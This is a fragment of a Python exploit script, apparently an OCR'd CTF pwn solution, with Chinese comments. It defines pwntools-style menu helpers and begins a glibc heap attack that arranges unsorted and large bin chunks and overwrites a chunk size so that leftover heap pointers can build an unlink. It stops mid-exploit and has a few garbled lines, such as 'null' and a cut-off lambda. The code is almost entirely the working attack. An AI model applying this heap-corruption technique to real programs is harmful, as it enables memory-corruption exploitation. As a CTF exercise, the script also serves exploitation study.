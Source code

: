 ```python
rint= lambda x = 12     : int( p.recv(x) , 16)

def dbg( b = null):
    if (b == null):
        gdb.attach(p)
        pause()
    else:
        gdb.attach(p,'b %s'%b)

def one_gadget(filename):
    log.progress('Leak One_Gadgets...')
    one_ggs = str(subprocess.check_output(
        ['one_gadget','--raw', '-f',filename]
    )).split(' ')
    return list(map(int,one_ggs))

def cmd(num):
    sla('>>',num)

def add(size , Content = '\x00'):
    cmd(1)
    sla('Size: ' , size)
    sa('Content:' , Content)

def edit(idx , Content):
    cmd(2)
    sla('Index: ' , idx)
    sla('Content:' , Content)

def delete(idx ):
    cmd(3)
    sla('Index: ' , idx)

def show(idx ):
    cmd(4)
    sla('Index: ' , idx)


# one_gad = one_gadget(libc.path)
# 本质是通过 unsorted bin 或者 large bin 的指针残留构造 unlink 的指针指向

add(0x418)
add(0x108)
add(0x418) #2
add(0x438) #3
add(0x208) #4
add(0x428) #5
add(0x418) #6

delete(0)
delete(3)
delete(5)

delete(2)

# unsorted bin 合并 ，但合并不会清空数据，某处有残留的堆地址

add(0x438, 'a' * 0x418 +  p64( 0x420 + 0x210 + 0x430 + 0x420 + 0x20 + 1)) #0

# 0xa91 写到了原来 chunk3 的 size 处，刚好这下面有残留的堆地址
# 切割已经合并的大块
# unsorted bin 从新到旧排序

```